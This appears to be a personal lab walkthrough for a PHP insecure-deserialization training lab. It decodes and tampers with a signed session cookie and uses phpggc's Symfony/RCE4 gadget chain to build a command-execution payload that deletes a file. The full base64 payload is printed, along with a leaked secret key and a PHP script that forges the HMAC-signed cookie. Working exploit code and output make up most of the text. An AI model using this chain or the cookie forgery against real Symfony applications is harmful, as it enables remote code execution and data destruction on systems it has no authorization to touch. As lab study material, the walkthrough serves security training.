

## know how php deserilization PHP Generic Gadget Chains

```bash
## know how deserialization PHP Generic Gadget Chains
```
Most languages that frequently suffer from insecure deserialization vulnerabilities have equivalent proof-of-concept tools. For example, for PHP-based sites you can use "PHP Generic Gadget Chains" (PHPGGC).


## know how deserialization Lab5: Exploiting PHP deserialization with a pre-built gadget chain

```bash
## know how deserialization php
```

This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

* session mechanism that uses a signed cookie
* you don't have source code access
* Pre-built gadget chains
* identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload
* Then, work out how to generate a valid signed cookie containing your malicious object
* Finally, pass this into the website to delete the morale.txt file from Carlos's home directory.

1. Explore website and code.

We can see php code 


In the scope, we can see php.info, we can confirm that its php


```bash
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJnZXVxdXZnN3A4OXduM2hyMzJreTZ5bXl5aGhidXcybSI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%226bdfde5476e3445ab882a74c0bfd6495a58ed9de%22%7D
```


```bash
## urldecode decode
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJnZXVxdXZnN3A4OXduM2hyMzJreTZ5bXl5aGhidXcybSI7fQ==","sig_hmac_sha1":"6bdfde5476e3445ab882a74c0bfd6495a58ed9de"}
```

```bash
extract 

Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJnZXVxdXZnN3A4OXduM2hyMzJreTZ5bXl5aGhidXcybSI7fQ==

```


```bash
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"geuquvg7p89wn3hr32ky6ymyyhhbuw2m";}
```

Ok, we change username for carlos, the number of string its some of wiener

```bash
O:4:"User":2:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"geuquvg7p89wn3hr32ky6ymyyhhbuw2m";}
```

Encode to base 64

```bash
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJnZXVxdXZnN3A4OXduM2hyMzJreTZ5bXl5aGhidXcybSI7fQ==
```


Now we change for this token. and we can see that changing peter for carlos, we get error that show us that its symfony version 4.3.6

Now we can go to [cheat sheet ](https://github.com/joseluisinigo/phpggc)

```bash
Symfony/FW1                               2.5.2                                                File write             DebugImport    *    
Symfony/FW2                               3.4                                                  File write             __destruct          
Symfony/RCE1                              3.3                                                  RCE (Command)          __destruct     *    
Symfony/RCE2                              2.3.42 < 2.6                                         RCE (PHP code)         __destruct     *    
Symfony/RCE3                              2.6 <= 2.8.32                                        RCE (PHP code)         __destruct     *    
Symfony/RCE4                              3.4.0-34, 4.2.0-11, 4.3.0-7                          RCE (Function call)    __destruct     *    
Symfony/RCE5                              5.2.*                                                RCE (Function call)    __destruct          
Symfony/RCE6                              v3.4.0-BETA4 <= v3.4.49 & v4.0.0-BETA4 <= v4.1.13    RCE (Command)          __destruct     *    

```


We can serach info in the coments for search posibilities...in this case the phpinfo that we found before

```bash
## know how search comments
## know how comments search
## know how burpsuite search comments
## know how burpsuite comments search
## know how information disclosure search

1. go to scope, select target and click in search comments
```


In this case we can see too since target scope.


* now we need view url in the browser, for these we can right click in request and send response to browser.

```bash
## know how sig_hmac_shall
## know how secret_key
```
* search secret_key . we need secret key becouse in the session decode we found sig_hmac_shall, and we need regenerate this value.


```bash
## secret key , we will use in php script php for create a session with sig_hmac_shall
0sqtnsi63t0y2u5l8sfwi19rn9jr75k5
```

* we need clone de repository of phpGGC

```bash
## know how derialization symfony
## know how deserialization php phpGGC


./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'  

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;O:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:25:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}

now we need encode to base 64 , remove 0 and save in a file

./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0 > payload.txt

```


```bash
Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==  
```

```bash
## know how sig_hmac_shall php script
## know how php script sig_hmac_shall deserialization
## know how php deserialization
## know how deserialization php
```

* ok, well, now we can generate a php file with the payload and signature for get a session that we can use.

```php
<?php
## know how script deserialization php
## know how php deserialization script
## know how deserialization php script

## payload that we got before
$payload ="Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==";

## secret key founded in the source code
$secretKey="0sqtnsi63t0y2u5l8sfwi19rn9jr75k5";

$cookie= urlencode('{"token":"'.$payload.'","sig_hmac_sha1":"'.hash_hmac('sha1', $payload, $secretKey).'"}');
echo $cookie;
```




It is important to note that the vulnerability is the deserialization of user-controllable data, not the mere presence of a gadget chain in the website's code or any of its libraries. The gadget chain is just a means of manipulating the flow of the harmful data once it has been injected. This also applies to various memory corruption vulnerabilities that rely on deserialization of untrusted data. In other words, a website may still be vulnerable even if it did somehow manage to plug every possible gadget chain.